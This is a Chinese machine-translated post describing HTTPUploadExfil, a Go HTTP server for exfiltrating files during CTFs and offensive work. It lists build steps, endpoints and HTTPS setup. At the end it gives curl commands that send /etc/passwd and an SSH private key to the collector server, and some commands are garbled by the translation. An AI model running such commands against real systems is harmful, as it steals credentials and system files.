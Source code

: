 # HTTPUploadExfil:一个简单的 HTTP 服务器，用于在例如 CTFs 期间过滤文件/数据

> [https://kallinuxtremark . com/httpuploadexfile/](https://kalilinuxtutorials.com/httpuploadexfil/)

[![](img//2f86701cbffe8cb3f115c0aa890b2d40.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjm-sHB9gcnW5mhTAoINNasfz6QmGOXI3vdzTgy2jglgkNBqYPdAdpwZKh78xegbcqMahfDmROtCh2CPlP7Jwjrh-rAcLYOgu6y3-2LmdFub0lsv7khZfbG1J3YqtTioQyjWwJ1xzJkJinM-OicKwlHKoqDIWIe_3jOMmShmzB36OuN_DkbDDekEt1-=s728)

是一个用 Go 编写的(非常)简单的 HTTP 服务器，对于使用 HTTP 从机器上获取文件(和其他信息)非常有用。虽然有许多用例，但它应该用于**低风险进攻场景**(例如，CTFs)。

可以把这想象成`**python3 -m http.server**`，但是是从机器上获取数据，而不是在机器上。

显然，这是一种**非常响亮**而**有些受限**的数据泄露方式。然而，它非常方便，而且比使用 SMB 或 FTP 更容易。如果你正在寻找更优雅的东西，看看，例如，`**dnsteal**`或`**PyExfil**`。

**TL；博士**

*   使用`**go build**`构建工具。
*   在你的机器上运行`**./httpuploadexfil :1337 /home/kali/loot**`。
*   访问您需要从中提取数据的机器上的`**http://YOUR_IP:1337/**`。
*   在`**/home/kali/loot**`中找到您上传的文件。

如果需要 HTTPs，看下面的信息。

**建设和发展**

虽然有可用的二进制文件，但绝对建议**在自己的**上构建它。这样，您将拥有最新的版本，并且您也将确切地知道您正在运行什么。这个过程很简单:

只需在文件夹中运行`**go build**`，您应该会得到一个适用于您的平台的`**httpuploadexfil**`可执行文件。

如果您对工具进行了更改，请记住使用 **`go fmt main.go`进行格式化。**

**用法**

最常见的用例是在一台机器上运行服务器。现在，在*机器 B* 上，您使用浏览器访问上传表单，并选择要导出的文件。当然，正如您在下面看到的，这也可以通过使用`**curl**`来完成。

除了上传文件，您还可以使用简单的 GET 请求使用`**HTTPUploadExfil**`来过滤数据。如果一个请求被发送到`**\g**`端点，整个请求将被存储到磁盘。

因此，您可以使用请求的报头来过滤数据。使用 GET 参数(例如`**?data=...**`)是最简单的，但是还有其他选项。

![](img//ae9d32a58da00bc23bdc8abf1f4c036d.png)

默认情况下，`**HTTPUploadExfil**`将在端口 8080 上提供服务。所有文件都将被写入当前目录。

`**./httpuploadexfil**`

您还可以提供一些参数:

`**./httpuploadexfil :133**7 **/home/kali/loot**`

第一个参数是绑定地址，第二个参数是存储文件的文件夹。

该工具还会在端点`**/l**`下暴露 loot 目录中的文件。这可以作为将文件带到目标上的一种简单方法。

**终点**

web 服务器公开了四个端点供您使用:

*   `**/**` (GET)是上传表单。
*   `**/p**` (POST)从上传表单中获取数据。它需要一个填充了`**file**`字段的`**multipart/form-data**`请求。
*   `**/g**` (GET)将接受任何 GET 请求，并将完整的请求存储在服务器上。
*   `**/l**` (GET)将提供对指定文件夹中文件的访问(目录列表)。这是为了提供基本的`**python3 -m** **http.server**`功能。

**HTTPs 模式**

`**HTTPUploadExfil**`也可以在 HTTPs 模式下使用。为此，只需在二进制文件旁边放置一个`**HTTPUploadExfil.csr**`和`**HTTPUploadExfil.key**`文件。例如，这些可以如下生成:

**OpenSSL req-new-new key RSA:2048-nodes-key out httpuploadexfil . key-out httpuploadexfil . CSR
OpenSSL x509-req-days 365-in httpuploadexfil . CSR-sign key httpuploadexfil . key-out httpuploadexfil . CSR**

如果服务器看到一个`**HTTPUploadExfil.csr**`文件，它将尝试以 HTTPs 模式启动。要返回 HTTP，只需删除或重命名证书文件。

**炮弹**

使用`**Bash**`，我们可以使用 GET via 来导出数据，例如:

`**echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g**`

当然，我们也可以使用`**cur**l`来导出文件:

`**curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p**`

[**Download**](https://github.com/IngoKl/HTTPUploadExfil)